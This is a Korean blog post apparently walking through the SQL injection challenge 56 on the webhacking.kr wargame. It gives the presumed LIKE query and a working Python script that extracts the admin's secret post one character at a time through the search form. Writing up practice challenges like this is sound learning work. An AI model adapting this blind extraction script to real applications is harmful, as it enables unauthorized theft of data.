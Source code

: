 ```yaml
---
title: "[webhacking.kr] 56번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "56번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 56번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/154011710-004a04fa-a91b-4a03-aed0-fe6d53a459a5.png)

  search 기능을 이용해서 admin의 게시글 내용을 알아내는 문제입니다.


# 문제 풀이
  게시글 찾기 기능을 사용할때 일반적으로 다음과 같은 sql 문을 통해서 db에서 찾아옵니다.

  ```sql
select * from chall56 where secret like '%{search}%'
  ```

  몇가지 실험 결과 위의 쿼리문으로 sql문이 구성된 걸로 추정되며, 이를 이용해서 다음과 같이 파이썬 코드로 게시글의 내용을 찾아낼 수 있습니다.

  문제를 풀 당시에는 맨 처음 단어가 FLAG일 것으로 추정하고 풀어서 빠르게 풀었지만, 보다 일반적으로 게시글 내용을 추정하기 위해서 하나의 글자에서 시작해서 뒤의 내용을 완성하고, 다시 앞의 내용을 완성하는 방식으로 searching을 진행했습니다.

  그리고 주의해야 할 점은, searching을 할때는 '%' 와 '_'의 사용을 주의해야 합니다.

  '%' : 모든 임의의 문자열 의미 
  '_' : 하나의 임의의 문자열 의미

  이때, 각각의 글자가 실제 특수문자의 기능이 아닌 하나의 글자로 동작하는 경우가 있기 때문에 searching의 맨 마지막에는 '_'가 존재하는지도 확인해 줍니다.

```python
import requests
import string

url = 'https://webhacking.kr/challenge/web-33/'
TRUE_FLAG = 'admin'
secret = 'a'
data = {}
exit = 0


# '%' 는 삭제하고, '_'는 맨 마지막에 추가
printable_string = string.printable
printable_string = printable_string.replace('%','')
printable_string = printable_string.replace('_','')
printable_string = printable_string + '_'
    

# a부터 뒷글자들을 먼저 맞춘다.
while exit==0:
    for character in printable_string:
        data['search'] = secret + character
        response = requests.post(url,data=data)
        if(TRUE_FLAG in response.text):
            secret = data['search']
            print('\r[+]',secret,end='')
            break
        if(character == printable_string[-1]):
            exit=1
            print("break while loop")


# 앞부분을 채워 넣기
exit = 0
while exit==0:
    for character in printable_string:
        data['search'] = character + secret
        response = requests.post(url,data=data)
        if(TRUE_FLAG in response.text):
            secret = data['search']
            print('\r[+]',secret,end='')
            break    

        if(character == printable_string[-1]):
            exit=1
            print("break while loop")
            print(secret)
```

코드 실행결과는 다음과 같이 나왔으며, 맨 앞의 \는 제거해 줍니다.

![image](https://user-images.githubusercontent.com/33647663/154013180-fee784f3-eca3-4852-aaae-c0d5f2c23140.png)


